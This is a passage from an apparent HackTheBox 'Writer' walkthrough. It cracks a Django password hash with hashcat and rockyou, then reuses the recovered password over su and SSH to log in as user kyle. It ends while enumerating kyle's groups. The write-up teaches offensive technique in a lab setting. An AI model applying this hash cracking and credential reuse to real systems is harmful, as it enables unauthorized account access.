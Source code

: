 

    $ hashcat -m 10000 django.hash --force /usr/share/wordlists/rockyou.txt 
    ...[snip]...
    pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
    ...[snip]...



### su / SSH

That password works for kyle, either with `su`:



    www-data@writer:/var/www/writer2_project$ su kyle
    Password: 
    kyle@writer:/var/www/writer2_project$



Or over SSH:



    oxdf@parrot$ sshpass -p 'marcoantonio' ssh kyle@10.10.11.101
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
    ...[snip]...
    kyle@writer:~$ 



And now I have access to `user.txt`:



    kyle@writer:~$ cat user.txt
    9f0e5237************************



## Shell as john

### Enumeration

#### groups

It's worth looking for what other files kyle can access that www-data
couldn't. A good starting place is looking at kyle's groups:



    kyle@writer:~$ id
    uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)



There's two interesting groups besides the user's default.

The `kyle` group, after removing stuff from `/run`, `/sys`, and `/proc`,
is just the home directory:

